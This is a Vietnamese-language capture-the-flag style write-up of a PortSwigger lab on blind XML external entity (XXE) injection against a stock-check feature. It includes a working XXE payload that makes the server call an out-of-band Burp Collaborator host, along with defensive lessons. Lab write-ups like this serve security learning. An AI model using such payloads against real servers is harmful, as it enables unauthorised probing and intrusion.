



# Write-up: Blind XXE with out-of-band interaction

### Tổng quan
Khai thác lỗ hổng Blind XML External Entity (XXE) trong chức năng kiểm tra kho hàng (check stock), sử dụng external entity để kích hoạt tương tác out-of-band với Burp Collaborator, xác nhận lỗ hổng bằng DNS lookup và HTTP request, hoàn thành lab.

### Mục tiêu
- Inject XML external entity vào chức năng check stock để kích hoạt DNS lookup và HTTP request tới Burp Collaborator, xác nhận lỗ hổng Blind XXE.

### Công cụ sử dụng
- Burp Suite Pro 
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Kiểm tra chức năng check stock trên giao diện web với một sản phẩm bất kỳ
- Trong Burp Suite Proxy, bắt được yêu cầu:
    
    - **Quan sát**: Yêu cầu gửi dữ liệu XML, gợi ý khả năng tồn tại lỗ hổng XXE do server xử lý XML, nhưng không hiển thị kết quả trong phản hồi (Blind XXE):

2. **Khai thác (Exploitation)**
- Gửi yêu cầu `POST /product/stock` tới Burp Repeater.
- Tạo domain trong Burp Collaborator 
- Thêm external entity để kích hoạt yêu cầu HTTP tới Collaborator:
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo[ <!ENTITY xxe SYSTEM "http://qrlb9xn82v4w6fx7bgefru59n0trhh56.oastify.com">]>
    <stockCheck>
        <productId>&xxe;</productId>
        <storeId>1</storeId>
    </stockCheck>
    ```
    - **Phản hồi**: Không hiển thị kết quả trong response (Blind XXE).
    - Kiểm tra Burp Collaborator: Ghi nhận tương tác DNS lookup và HTTP request tới.
    

- Kiểm tra trạng thái lab:
    

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng Blind XXE bằng external entities để kích hoạt tương tác out-of-band và xác nhận lỗ hổng qua Burp Collaborator.
- Nhận thức tầm quan trọng của việc vô hiệu hóa xử lý external entities trong XML parser và hạn chế kết nối mạng ra ngoài để ngăn chặn Blind XXE.

### Tài liệu tham khảo
- PortSwigger: XML External Entity (XXE) Injection
- PortSwigger: Blind XXE vulnerabilities

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác lỗ hổng Blind XXE, sử dụng Burp Collaborator để phát hiện tương tác out-of-band, và hiểu cách bảo vệ hệ thống khỏi XXE. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*